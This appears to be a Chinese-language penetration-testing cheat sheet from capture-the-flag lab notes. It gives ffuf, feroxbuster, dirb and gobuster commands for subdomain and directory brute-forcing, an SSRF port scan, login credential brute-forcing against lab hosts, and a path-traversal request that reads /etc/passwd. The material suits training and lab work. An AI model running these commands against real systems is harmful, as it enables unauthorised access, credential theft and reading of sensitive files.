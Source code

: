 **ffuf**
```bash
子域名爆破
ffuf -u http://10.129.237.11 -H "Host: FUZZ.editorial.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -ac
```

- SSRF , 探测本地端口开放情况
burpsuite 抓包后整理 request 文件
```bash
ffuf -u http://editorial.htb/upload-cover -request request.req -w <( seq 0 65535) -ac
```

- 前端爆破
```bash
ffuf -u 'http://report.solarlab.htb:6791/login' -d 'username=FUZZ&password=asd' -w potential_user.txt -H "Content-Type: application/x-www-form-urlencoded" [--fs]

ffuf -u 'http://report.solarlab.htb:6791/login' -d 'username=USER&password=PASS' -w report_users.txt:USER -w possible_passwords.txt:PASS -H "Content-Type: application/x-www-form-urlencoded" -fs 2144
```


**Burpsuite FUZZ**
```
GET /test.php?[PASS]=../../../../../../../../../etc/passwd HTTP/1.1
```
字典路径 : SecLists/Discovery/Web-Content/common.txt




# 爆破工具
**feroxbuster** 
```bash
feroxbuster -u http://xxx -x php [-H "Authorization: Basic xxxxxxxxx"] -w Dir Path
```


**dirb** 
```bash
dirb http://192.168.55.19:8008/NickIzL33t /usr/share/wordlists/rockyou.txt -a "Mozilla/5.0 (iPhone; CPU iPhone OS 11_3 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) FxiOS/33.0 Mobile/15E148 Safari/605.1.15"
```


**dirsearch (有头部特殊要求的时候可以用 , 在设置里设置)**
```bash
dirsearch
```


**Gobuster 爆破 API**
- txt
```txt
{GOBUSTER}/v1
{GOBUSTER}/v2
```
